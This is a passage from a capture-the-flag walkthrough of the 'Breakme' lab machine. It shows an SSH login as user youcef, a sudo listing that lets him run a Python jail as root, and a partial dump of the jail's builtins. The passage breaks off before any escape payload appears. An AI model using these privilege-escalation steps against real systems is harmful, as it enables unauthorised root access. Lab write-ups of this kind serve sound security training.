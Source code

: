 <p>Now, we can finally login as youcef:</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ ssh -i key youcef@10.10.66.31                                                                                                                                              
Enter passphrase for key 'key': 
Linux Breakme 5.10.0-8-amd64 #1 SMP Debian 5.10.46-4 (2021-08-03) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Mar 21 07:55:16 2024 from 192.168.56.1
youcef@Breakme:~$ 
</pre>

<h2>Step 6:  privilege escalation to root</h2>
<p>It appears that Youcef is allowed to run a Python jail as sudo. Thereby providing a vector for privilege escalation to root:</p>
<pre>
youcef@Breakme:~$ sudo -l
Matching Defaults entries for youcef on breakme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User youcef may run the following commands on breakme:
    (root) NOPASSWD: /usr/bin/python3 /root/jail.py
</pre>
<p>Running it as sudo opens the Python jail:</p>
<pre>
youcef@Breakme:~$ sudo python3 /root/jail.py
  Welcome to Python jail  
  Will you stay locked forever  
  Or will you BreakMe  
>> 
</pre>
<p>I first checked which built in object that are available in the environment:</p>
<pre>
&#123;'__name__': 'builtins',
 '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.",
 '__package__': '',
 '__loader__': &amp;lt;class '_frozen_importlib.BuiltinImporter'&amp;gt;,
 '__spec__': ModuleSpec(name='builtins', loader=&amp;lt;class '_frozen_importlib.BuiltinImporter'&amp;gt;, origin='built-in'),
 '__build_class__': &amp;lt;built-in function __build_class__&amp;gt;,
 '__import__': &amp;lt;built-in function __import__&amp;gt;,
 'abs': &amp;lt;built-in function abs&amp;gt;,
 'all': &amp;lt;built-in function all&amp;gt;,
 'any': &amp;lt;built-in function any&amp;gt;,
 'ascii': &amp;lt;built-in function ascii&amp;gt;,
 'bin': &amp;lt;built-in function bin&amp;gt;,
 'breakpoint': &amp;lt;built-in function breakpoint&amp;gt;,
 'callable': &amp;lt;built-in function callable&amp;gt;,
 'chr': &amp;lt;built-in function chr&amp;gt;,
 'compile': &amp;lt;built-in function compile&amp;gt;,
 'delattr': &amp;lt;built-in function delattr&amp;gt;,
 'dir': &amp;lt;built-in function dir&amp;gt;,
 'divmod': &amp;lt;built-in function divmod&amp;gt;,
 'eval': &amp;lt;built-in function eval&amp;gt;,
 'exec': &amp;lt;built-in function exec&amp;gt;,
 'format': &amp;lt;built-in function format&amp;gt;,
 'getattr': &amp;lt;built-in function getattr&amp;gt;,
 'globals': &amp;lt;built-in function globals&amp;gt;,